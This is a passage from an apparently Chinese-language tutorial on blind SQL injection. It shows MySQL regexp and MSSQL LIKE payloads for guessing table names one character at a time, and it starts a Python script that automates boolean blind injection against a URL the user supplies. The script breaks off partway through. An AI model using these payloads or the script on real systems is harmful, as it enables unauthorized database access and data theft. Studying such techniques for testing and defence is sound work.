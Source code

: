 + 通过表达式范围的缩小一步步确定表名。expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE

下面这种写法是SQL中的三目运算符：  
`select * from users where id=1 and 1=(if((user() regexp '...'),1,0))`  
这样写更简单一些：  
`select * from users where id=1 and 1=(user() regexp'...')`  
一个具体的例子

```sql
select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='xxxxx' and table_name regexp '^us[a-z]' limit 0,1)
```

+ 注意：在limit 0,1下，regexp会匹配所有的项。使用regexp时，要注意可能有多个项，要一个个字符去爆破。limit是作用于select的，不是作用于regexp的！

#### MSSQL的注意事项

%号表示匹配任何长度的字串，_表示匹配一个任意字串。

+ MSSQL使用的并不是标准正则表达式，使用like关键字。

```sql
?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )
```

select top x :查询前x行的数据。

+ 不能像mysql一样用limit(x,1)，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前x行里，其实查询的就是第x+1行

[详细介绍链接](http://www.cnblogs.com/lcamry/articles/5717442.html)

### 布尔盲注

原理很简单，自己写一段脚本代码就会了。  
进阶要求：猜解的时候使用二分搜索  

```python
import requests

charset = ",{{}}abcdefghijklmnopqrstuvwxyz.!@$%^*():/1234567890_#"
url = ["","",""]
SuccessKey = ""

#读取输入
def init():
    print("自动布尔盲注脚本，需要输入URL，payload位置和成功页面特点。")
    print("请输入待测试URL，其中payload使用$来标识。")
    print("例如：http://www.test.com/?id=1' and $%23")
    print("请确保手动注入测试成功，再使用脚本爆破。")
    while True:
        url[0] = input(">url = ")
        if '$' not in url[0]:
            print("没有指出payload的位置。")
            continue
        else:
            break
    url[1],url[2] = url[0].split("$")
    global SuccessKey
    print("接下来输入页面成功的标识，请确保这个字串是唯一的。")
    SuccessKey = input(">SuccessKey = ")

#要在其他函数之前测试一下连接。
def TestConn():
    flags = [False,False,False]
    def TestConnSucc():
        try:
```